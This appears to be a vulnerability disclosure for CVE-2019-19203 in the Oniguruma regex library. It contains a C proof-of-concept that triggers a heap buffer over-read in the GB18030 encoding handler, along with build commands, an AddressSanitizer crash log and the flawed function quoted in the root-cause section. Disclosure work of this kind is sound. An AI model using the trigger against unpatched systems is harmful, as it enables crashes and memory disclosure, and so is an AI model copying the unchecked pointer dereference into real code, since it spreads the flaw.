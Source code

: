 # CVE-2019-19203
An issue was discovered in Oniguruma 6.x before 6.9.4_rc2. In the function gb18030_mbc_enc_len in file gb18030.c, a UChar pointer is dereferenced without checking if it passed the end of the matched string. This leads to a heap-based buffer over-read.

Researcher: **ManhND of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Oniguruma
Oniguruma by K. Kosako is a BSD licensed regular expression library that supports a variety of character encodings. The Ruby programming language, in version 1.9, as well as PHP's multi-byte string module (since PHP5), use Oniguruma as their regular expression engine. It is also used in products such as Atom, GyazMail Take Command Console, Tera Term, TextMate, Sublime Text and SubEthaEdit.

## Proof of Concept
Source code:
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include "oniguruma.h"

static int
search(regex_t* reg, unsigned char* str, unsigned char* end)
{
  int r;
  unsigned char *start, *range;
  OnigRegion *region;

  region = onig_region_new();

  start = str;
  range = end;
  r = onig_search(reg, str, end, start, range, region, ONIG_OPTION_NONE);
  if (r >= 0 ) {
    int i;

    fprintf(stdout, "match at %d  (%s)\n", r,
            ONIGENC_NAME(onig_get_encoding(reg)));
    for (i = 0; i < region->num_regs; i++) {
      fprintf(stdout, "%d: (%d-%d)\n", i, region->beg[i], region->end[i]);
    }
  }
  else if (r == ONIG_MISMATCH) {
    fprintf(stdout, "search fail (%s)\n",
            ONIGENC_NAME(onig_get_encoding(reg)));
  }
  else { /* error */
    char s[ONIG_MAX_ERROR_MESSAGE_LEN];
    onig_error_code_to_str((UChar* )s, r);
    fprintf(stdout, "ERROR: %s\n", s);
    fprintf(stdout, "  (%s)\n", ONIGENC_NAME(onig_get_encoding(reg)));
    
    onig_region_free(region, 1 /* 1:free self, 0:free contents only */);
    return -1;
  }

  onig_region_free(region, 1 /* 1:free self, 0:free contents only */);
  return 0;
}

int main(int argc, char* argv[])
{
  int r;
  regex_t* reg;
  OnigErrorInfo einfo;

  char *pattern = (char*)malloc(6);
  memcpy(pattern, "[\\W]\\w", 6);
  char *pattern_end = pattern + 6;
  OnigEncodingType *enc = ONIG_ENCODING_GB18030;

  char* str = (char*)malloc(2);
  memcpy(str, "\xe1\xe1", 2);
  char* str_end = str+2;

  onig_initialize(&enc, 1);
  r = onig_new(&reg, (unsigned char *)pattern, (unsigned char *)pattern_end,
               ONIG_OPTION_NONE, enc, ONIG_SYNTAX_DEFAULT, &einfo);
  if (r != ONIG_NORMAL) {
    char s[ONIG_MAX_ERROR_MESSAGE_LEN];
    onig_error_code_to_str((UChar* )s, r, &einfo);
    fprintf(stdout, "ERROR: %s\n", s);
    onig_end();

    if (r == ONIGERR_PARSER_BUG ||
        r == ONIGERR_STACK_BUG  ||
        r == ONIGERR_UNDEFINED_BYTECODE ||
        r == ONIGERR_UNEXPECTED_BYTECODE) {
      return -2;
    }
    else
      return -1;
  }

  if (onigenc_is_valid_mbc_string(enc, str, str_end) != 0) {
    r = search(reg, str, str_end);
  } else {
    fprintf(stdout, "Invalid string\n");
  }

  onig_free(reg);
  onig_end();
  return 0;
}
```
Compilation of Oniguruma and the PoC:
```
./configure CC=gcc CFLAGS="-O0 -ggdb3 -fsanitize=address" LDFLAGS="-O0 -ggdb3 -fsanitize=address" && make -j4
gcc -fsanitize=address -O0 -I./oniguruma-gcc-asan/src -ggdb3 poc-gb18030_mbc_enc_len.c ./oniguruma-gcc-asan/src/.libs/libonig.a -o PoC
```
Crash log:
```
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# ./PoC
=================================================================
==5543==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60200000efd2 at pc 0x000000487a3c bp 0x7ffe87bb1ea0 sp 0x7ffe87bb1e90
READ of size 1 at 0x60200000efd2 thread T0
    #0 0x487a3b in gb18030_mbc_enc_len /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/gb18030.c:72
    #1 0x47bedd in onigenc_mbn_mbc_to_code /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regenc.c:774
    #2 0x487d37 in gb18030_mbc_to_code /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/gb18030.c:121
    #3 0x45eadc in match_at /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regexec.c:3271
    #4 0x4743bc in search_in_range /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regexec.c:5382
    #5 0x4732b3 in onig_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regexec.c:5168
    #6 0x401228 in search /root/fuzz/fuzz_oniguruma/poc-gb18030_mbc_enc_len.c:17
    #7 0x401918 in main /root/fuzz/fuzz_oniguruma/poc-gb18030_mbc_enc_len.c:80
    #8 0x7fed5c75c82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #9 0x401048 in _start (/root/fuzz/fuzz_oniguruma/PoC+0x401048)

0x60200000efd2 is located 0 bytes to the right of 2-byte region [0x60200000efd0,0x60200000efd2)
allocated by thread T0 here:
    #0 0x7fed5cb9e602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
    #1 0x401793 in main /root/fuzz/fuzz_oniguruma/poc-gb18030_mbc_enc_len.c:56
    #2 0x7fed5c75c82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)

SUMMARY: AddressSanitizer: heap-buffer-overflow /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/gb18030.c:72 gb18030_mbc_enc_len
Shadow bytes around the buggy address:
  0x0c047fff9da0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9db0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa 04 fa
  0x0c047fff9dc0: fa fa 00 00 fa fa 00 04 fa fa 00 00 fa fa 06 fa
  0x0c047fff9dd0: fa fa 00 00 fa fa 06 fa fa fa 00 00 fa fa 04 fa
  0x0c047fff9de0: fa fa 00 00 fa fa 00 01 fa fa 00 00 fa fa 00 00
=>0x0c047fff9df0: fa fa 05 fa fa fa 00 00 fa fa[02]fa fa fa 06 fa
  0x0c047fff9e00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e10: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
==5543==ABORTING
```
## Root cause
Referenced source code version: **ca7ddbd858dcdc8322d619cf41ab125a2603a0d4**
In gb18030_mbc_enc_len, p ++ then p is dereferenced without checking if it passes the end of the UChar string, which leads to buffer over-read.
```C
static int
gb18030_mbc_enc_len(const UChar* p)
{
  if (GB18030_MAP[*p] != CM)
    return 1;

  p++;
  if (GB18030_MAP[*p] == C4)
    return 4;

  return 2;
}
```
